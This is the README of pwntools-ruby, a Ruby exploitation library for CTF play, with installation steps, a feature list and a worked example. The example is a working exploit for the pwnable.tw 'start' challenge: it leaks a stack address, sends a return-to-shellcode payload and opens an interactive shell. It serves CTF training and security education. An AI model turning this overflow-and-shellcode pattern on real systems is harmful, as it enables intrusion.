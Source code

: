 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![GitHub issues](https://img.shields.io/github/issues/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/issues)
[![Build Status](https://github.com/peter50216/pwntools-ruby/workflows/build/badge.svg)](https://github.com/peter50216/pwntools-ruby/actions)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/maintainability/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)
[![Dependabot Status](https://api.dependabot.com/badges/status?host=github&repo=peter50216/pwntools-ruby)](https://dependabot.com)
[![Rawsec's CyberSecurity Inventory](https://inventory.raw.pm/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.raw.pm/)
<!-- [![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby) -->

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

## Example Usage

Here's an exploitation for `start` which is a challenge on [pwnable.tw](https://pwnable.tw).

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.arch = 'i386'
context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

## Documentation

More features and details can be found in the
[documentation](http://www.rubydoc.info/github/Ch1keen/pwntools-ruby/master/frames).

You might want a local copy of the documentation. First, clone the repository, and run `yard`.
You can find `doc/index.html` in the repository, this is the index page of the document.

## Installation

### Install the latest release:
```sh
gem install pwntools
```

### Install from master branch:
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle install && bundle exec rake install
```

### optional

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install Capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

## Supported Features

### Architectures

- [x] i386
- [x] amd64
- [ ] arm
- [ ] thumb

### Modules

- [x] context
- [x] asm
- [x] disasm
- [x] shellcraft
- [x] elf
- [x] dynelf
- [x] logger
- [x] tube
  - [x] sock
  - [x] process
  - [x] serialtube
- [ ] fmtstr
- [x] util
  - [x] pack
  - [x] cyclic
  - [x] fiddling

## Development
```sh
git clone https://github.com/Ch1keen/pwntools-ruby
cd pwntools-ruby
bundle
bundle exec rake
```

## Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.

## See Also

[Ronin](https://ronin-rb.dev) is a Ruby toolkit for security researcher and development, providing useful functions.


